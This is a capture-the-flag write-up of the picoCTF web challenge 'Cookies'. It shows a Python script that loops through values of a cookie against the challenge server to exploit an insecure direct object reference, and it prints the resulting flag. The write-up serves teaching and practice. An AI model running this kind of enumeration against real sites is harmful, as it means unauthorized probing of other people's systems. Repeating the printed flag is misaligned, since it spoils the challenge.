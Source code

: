 # Cookies

## Web

### Who doesn't love cookies? Try to figure out the best one.

The site takes you to this page:

![landing](./landing.png)

When you look at the cookies you see there is a 'name' value set to 1

![inspect1](./inspect1.png)

If you change that value and reload the page you can see there's a different cookie listed.

![inspect2](./inspect2.png)

Changing it again, changes the cookie type again.  I suspect that when you put in the correct value you'll get the flag.
This is a type of Insecure Direct Object Reference (IDOR) vulnerability.  I could try different values manually but I don't know what the upper bound is and figuring it out could take as much time as writing a script to iterate through the cookie values.

For this Python script, I'll use the `requests` library to interact with the web portion and the `re` library to do a regex search.
Because the attempts so far have all had "Not very special" in them I'll print on a failed match.

```python3
#!/usr/bin/env python3

import requests
import re

site = "http://mercury.picoctf.net:21485/check"
loops = 30
pattern = r"Not very special"

for i in range(loops):
    cookies = {'name': str(i)}
    r = requests.get(site, cookies=cookies)
    match = re.search(pattern, r.text)
    if not match:
        print(r.text)
        break

```

Running the script we get an output (most redacted for brevity):

```html

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>

```

**picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}**
